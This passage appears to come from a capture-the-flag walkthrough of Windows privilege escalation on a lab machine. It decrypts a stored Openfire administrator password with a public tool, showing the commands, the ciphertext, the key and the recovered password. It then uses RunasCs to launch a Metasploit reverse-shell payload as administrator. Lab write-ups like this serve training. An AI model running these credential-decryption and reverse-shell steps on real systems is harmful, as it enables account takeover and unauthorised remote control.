- In here we can see an encrypted password for Administrator and a passwordKey:

![image32](../resources/df3491a0f15a4f66b4185efd61b2bd6f.png)

- Luckily there is a repo for this:
<https://github.com/c0rdis/openfire_decrypt>

- Clone the repo

- Build the file:

```bash
javac OpenFireDecryptPass.java

```
- Enter the password and key:

![image33](../resources/66c61155a79e45b6a3e88b24d5d53ef2.png)

```bash
java OpenFireDecryptPass 'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442' 'hGXiFzsKaAeYLjn'

```

![image34](../resources/f55f2d23b51e4f70b7daf589fd629937.png)

We get: **ThisPasswordShouldDo!@**

- Use RunasCs to run a msf payload:

```bash
.\runascs.exe administrator ThisPasswordShouldDo!@ ".\rev.exe"

```

![image35](../resources/e24d32be38604f4bbf2ff154ca977c30.png)


![image36](../resources/b84c082cbd134de7afd6b2eed5ae2fb6.png)